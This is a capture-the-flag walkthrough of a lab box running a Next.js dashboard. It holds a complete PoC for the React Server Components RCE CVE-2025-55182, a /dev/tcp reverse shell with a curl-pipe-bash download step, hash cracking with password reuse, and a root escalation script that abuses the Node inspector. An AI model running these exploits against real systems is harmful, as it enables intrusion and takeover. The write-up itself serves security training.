

Reactor

Recon
Starting with nmap. SSH and an unusual service on 3000 that the version scanner cannot fingerprint, but the response headers give it away as a Next.js app.
[Reactor] nmap -Pn -v -T5 --min-rate 2000 -oN nmap -sSVC 10.129.18.248
Nmap scan report for 10.129.18.248
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
3000/tcp open ppp?
| fingerprint-strings:
| GetRequest:
| HTTP/1.1 200 OK
| Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, ...
| X-Powered-By: Next.js
| Content-Type: text/html; charset=utf-8
| <!DOCTYPE html><html lang="en">...Port 3000 serves ReactorWatch, a Next.js dashboard. Running nuclei over it flags a critical:
[CVE-2025-55182] [http] [critical] http://10.129.18.248:3000Exploitation
CVE-2025-55182 is a deserialization flaw in React Server Components as used by Next.js Server Actions. When a request carries a Next-Action header, the server deserializes the multipart body into RSC model objects. The crafted payload abuses a constructor:constructor gadget in the deserializer to reach the Function constructor and evaluate an attacker supplied _prefix string, which is enough to call child_process.execSync on the server.
The full PoC builds a multipart body where field 0 is the crafted chunk and field 1 references it, with the Next-Action header set so Next.js treats the request as a Server Action. The _prefix runs the command and stuffs its output into a fake NEXT_REDIRECT error so the result comes back in the response:
[Reactor] cat poc.py
# /// script
# dependencies = ["requests"]
# ///
import requests
import sys
import json
BASE_URL = sys.argv[1] if len(sys.argv) > 1 else "http://localhost:3000"
EXECUTABLE = sys.argv[2] if len(sys.argv) > 2 else "id"
crafted_chunk = {
"then": "$1:__proto__:then",
"status": "resolved_model",
"reason": -1,
"value": '{"then": "$B0"}',
"_response": {
"_prefix": f"var res = process.mainModule.require('child_process').execSync('{EXECUTABLE}',{{'timeout':5000}}).toString().trim(); throw Object.assign(new Error('NEXT_REDIRECT'), {{digest:`${{res}}`}});",
# If you don't need the command output, you can use this line instead:
# "_prefix": f"process.mainModule.require('child_process').execSync('{EXECUTABLE}');",
"_formData": {
"get": "$1:constructor:constructor",
},
},
}
files = {
"0": (None, json.dumps(crafted_chunk)),
"1": (None, '"$@0"'),
}
headers = {"Next-Action": "x"}
res = requests.post(BASE_URL, files=files, headers=headers, timeout=10)
print(res.status_code)
print(res.text)Host the reverse shell, start a listener, and run the PoC with a command that pulls and executes it:
[Reactor] cat shell.sh
0<&196;exec 196<>/dev/tcp/10.10.15.35/4444; sh <&196 >&196 2>&196
[Reactor] python3 poc.py http://10.129.18.248:3000/ 'curl http://10.10.15.35:8000/shell.sh | bash'The listener catches a shell as the node user, in the app directory:
node@reactor:/opt/reactor-app$ id
uid=1001(node) gid=1001(node) groups=1001(node)Post Exploitation
The app's .env points at a local SQLite database:
node@reactor:/opt/reactor-app$ cat .env
DB_PATH=/opt/reactor-app/reactor.db
DB_TYPE=sqlite3
SENSOR_API_KEY=rw_sk_7f8a9b2c3d4e5f6g7h8i9j0k
ALERT_WEBHOOK=https://alerts.internal.reactor.htb/webhookThe users table holds two MD5 hashes:
[Reactor] sqlite3 reactor.db
sqlite> .tables
sensor_logs users
sqlite> select * from users;
1|admin|a203b22191d744a4e70ada5c101b17b8|administrator|admin@reactor.htb
2|engineer|39d97110eafe2a9a68639812cd271e8e|operator|engineer@reactor.htbThe engineer hash cracks against rockyou:
[Reactor] hashcat -m 0 hash /usr/share/wordlists/rockyou.txt
39d97110eafe2a9a68639812cd271e8e:reactor1The password is reused for the system account, giving an SSH session and the user flag:
[Reactor] ssh engineer@10.129.18.248
engineer@reactor:~$ id
uid=1000(engineer) gid=1000(engineer) groups=1000(engineer),4(adm),24(cdrom),30(dip),46(plugdev),101(lxd)
engineer@reactor:~$ cat ~/user.txtPrivilege Escalation
Checking the process list, a monitoring service runs as root with the Node.js inspector enabled and bound to localhost:
engineer@reactor:~$ ps aux | grep inspect
root 1385 /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.jsThe inspector speaks the Chrome DevTools Protocol over WebSocket and exposes Runtime.evaluate, which runs arbitrary JavaScript in the target process's global context. Since that process is root, any local user who can reach 9229 gets code execution as root. A plain HTTP endpoint even hands out the WebSocket URL:
engineer@reactor:~$ curl -s http://127.0.0.1:9229/json/list
[ {
"id": "0ef29fa3-3dac-4c14-9879-eb9dc8958fcb",
"title": "/opt/uptime-monitor/worker.js",
"type": "node",
"webSocketDebuggerUrl": "ws://127.0.0.1:9229/0ef29fa3-3dac-4c14-9879-eb9dc8958fcb"
} ]A stdlib only Python CDP client is enough: connect to the WebSocket, send a Runtime.evaluate whose expression pulls child_process out of the running process and runs a command. Because the process is root, so is the command:
engineer@reactor:~$ cat privesc.py
#!/usr/bin/env python3
import socket, base64, os, json, sys, time, urllib.request
host, port = '127.0.0.1', 9229
ws = json.load(urllib.request.urlopen(f'http://{host}:{port}/json/list'))[0]['webSocketDebuggerUrl']
path = ws.split(f'{host}:{port}', 1)[1]
key = base64.b64encode(os.urandom(16)).decode()
s = socket.create_connection((host, port))
s.sendall((
f'GET {path} HTTP/1.1\r\nHost: {host}:{port}\r\n'
'Upgrade: websocket\r\nConnection: Upgrade\r\n'
f'Sec-WebSocket-Key: {key}\r\nSec-WebSocket-Version: 13\r\n\r\n'
).encode())
assert b'101' in s.recv(4096)
def send(msg):
d = msg.encode(); m = os.urandom(4)
h = bytearray([0x81, 0x80 | len(d)]) if len(d) < 126 else \
bytearray([0x81, 0x80 | 126]) + len(d).to_bytes(2, 'big')
s.sendall(bytes(h) + m + bytes(b ^ m[i % 4] for i, b in enumerate(d)))
def recv():
h = s.recv(2); ln = h[1] & 0x7f
if ln == 126: ln = int.from_bytes(s.recv(2), 'big')
elif ln == 127: ln = int.from_bytes(s.recv(8), 'big')
buf = b''
while len(buf) < ln: buf += s.recv(ln - len(buf))
return buf
cmd = sys.argv[1] if len(sys.argv) > 1 else 'id'
send(json.dumps({"id": 1, "method": "Runtime.evaluate", "params": {
"expression": f"global.process.mainModule.require('child_process').execSync({json.dumps(cmd)}).toString()"
}}))
time.sleep(0.5)
print(recv().decode(errors='replace'))engineer@reactor:~$ python3 privesc.py 'id'
{"id":1,"result":{"result":{"type":"string","value":"uid=0(root) gid=0(root) groups=0(root)\n"}}}From there the same primitive reads /root/root.txt as root.